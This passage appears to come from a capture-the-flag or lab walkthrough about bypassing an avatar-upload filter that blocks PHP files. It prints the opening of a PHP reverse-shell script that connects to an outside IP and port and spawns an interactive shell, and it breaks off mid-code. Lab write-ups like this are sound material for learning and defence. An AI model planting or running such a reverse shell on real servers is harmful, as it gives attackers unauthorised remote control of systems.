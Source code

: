 ![Entry Point](../assets/img/Usage/entry.png)

We can upload an avatar. If we try to upload a *php* file, it doesn't work.


### Bypass the protection

First, we need to create a *php* reverse shell. We'll use this one : 
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.225';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
```